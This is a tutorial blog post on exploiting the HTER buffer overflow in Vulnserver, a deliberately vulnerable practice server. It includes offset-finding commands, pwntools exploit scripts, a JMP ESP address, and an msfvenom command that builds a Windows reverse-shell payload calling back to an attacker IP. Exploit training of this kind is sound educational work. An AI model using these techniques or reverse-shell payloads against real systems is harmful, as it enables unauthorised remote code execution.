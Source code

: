 ```yaml
---
title: "Vulnserver: Buffer overflow in HTER command with a small obstacle"
date: 2019-09-09
---
```


We are back from a vacation and it's time to keep going with the Vulnserver series of posts. In this post we are going to exploit the crash found in the HTER command of Vulnserver. And important note to make before starting is that this post is going to be shorter than the previous one since I'm going to skip the steps that we have already seen.<!--more-->

## Analyzing the crash
In this case the registers in Immunity Debugger looked like in the image below after the crash.

{{img(id="img/immunitydbg1.PNG" class="textCenter")}}

{{img(id="img/immunitydbg2.PNG" class="textCenter")}}

We can see that we have overwrote EIP and produced a crash, but there's something peculiar about the value in EIP. The command that caused the crash was the following:

```bash
HTER AAAAAAAAAAAAAAAAAAA... # There's supposed to be 5000 As here
```

So with that command we expect EIP to be equal to 41414141 but instead it's AAAAAAAA so that makes us think that the target is interpreting our input as hex. This means that from now own we should feed the string representation of the hex values we want to use.

So instead of generating a De Brujin pattern like we normally do, we modify the alphabet used to respect the constraints.

```bash
$ cyclic -a "123456789ABCDEF" 5000
```

After the crash we can simply check the offset using the command again but we have to take into account the endianness and that we are using the string representation of the hex values so with the following crash:

{{img(id="img/immunitydbg3.PNG" class="textCenter")}}

We see that it crashed at EIP 0xC137B137, if we reverse the endianness we obtain 0x37B137C1 and since we are looking at the string representation we should search for the first for character "37B1".

```bash
$ cyclic -a "123456789ABCDEF" -l "37B1"
2046
```

So we obtained our EIP offset that we can check with a python script like the following:

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.128"
port = 9999

cmd= "HTER "
offset_eip = 2046
# Note that we have to take into account the endianness in EIP too.
eip = "BEBAFECA" # EIP = 0xCAFEBABE

# Create our payload.
payload = fit({
    0:cmd,
    offset_eip:eip,
    },length=5000,filler=de_bruijn(alphabet="123456789ABCDEF"))

io = remote(ip,port)
io.readline()
io.sendline(payload)
```

And it's confirmed in Immunity Debugger:

{{img(id="img/immunitydbg4.PNG" class="textCenter")}}

## Exploiting
After all of that exploitation is pretty straight forward. First of all, we find an address that has the command JMP ESP to execute our shellcode in the stack. For that we just use the command jmp available in the Mona plugin for Immunity Debugger.

{{img(id="img/immunitydbg5.PNG" class="textCenter")}}

We can use the first address shown 0x625011af which is part of essfunc.dll and has ASLR disabled.

After that we simple need some shellcode which we can generate with msfvenom.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.139 LPORT=443 EXITFUNC=thread -f hex -b "\x00\x0a"
```

Remember that we have to use the string representation so that's why we choose the hex format here.

Now all that's left is to put everything together in our exploit.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "192.168.1.128"
port = 9999

cmd= "HTER "
offset_eip = 2046
# Note that we have to take into account the endianness in EIP too.
eip = "AF115062" # Address of instruction we want to run (Ex. jmp esp).

# Here we put the shellcode we want to execute.
offset_sc = offset_eip + 8
shellcode = "90"*16
shellcode += "dac0d9742..." # Cut for brevity.

# Create our payload.
payload = fit({
    0:cmd,
    offset_eip:eip,
    offset_sc:shellcode
    },length=5000,filler=de_bruijn(alphabet="123456789ABCDEF"))

io = remote(ip,port)
io.readline()
io.sendline(payload)
```

And that's it, a buffer overflow very similar to the previous one that adds some constraints which allowed us to learn a few tricks.

See you guys in the next post.